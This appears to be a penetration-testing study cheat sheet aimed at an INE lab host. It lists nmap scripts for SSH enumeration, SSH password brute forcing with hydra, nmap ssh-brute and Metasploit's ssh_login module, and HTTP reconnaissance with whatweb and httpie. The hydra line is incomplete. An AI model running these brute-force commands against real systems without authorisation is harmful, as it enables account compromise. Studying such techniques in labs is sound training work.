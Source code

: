 ```Shell
nmap --script ssh2-enum-algos demo.ine.local
```

> The script enumerates the supported key exchange, encryption, MAC, and compression algorithms for SSH-2 on the target host.

```Shell
nmap --script ssh-hostkey --script-args ssh hostkey=full demo.ine.local
```

>The script retrieves and displays the full SSH host keys and fingerprints of the target server for security auditing purposes.

```Shell
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=<user-name>" demo.ine.local
```

> The script checks and lists the supported SSH authentication methods (e.g., password, public key) for the specified user on the target host.

```Shell
hydra -l <uer-name> -P /usr/share/wordlists/rockyou.txt
```

> SSH Brute force using hydra on a specific user.

```Shell
nmap <ip-address> -p 22 --script ssh-brute --script-args userdb=/root/user
```

**Note:**

`root/users` has the user(s) that I am sure are present in the system.

> Nmap can be also used to brute force user(s) password(s).

```msfconsole
use /auxiliary/scanner/ssh/ssh_login
show options
set RHOST <ip-address>
set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
set STOP ON SUCCESS true
set verbose true
exploit
```

> These set of commands from metasploit can be used to brute force a particular SSH user.

#### HTTP Commands:

```Shell
whatweb <ip-address>
```

> Running what web tool to find all possible information about the target server.

```Shell
http <ip-address>
```

> We could also use the `httpie` tool to gather target server information.
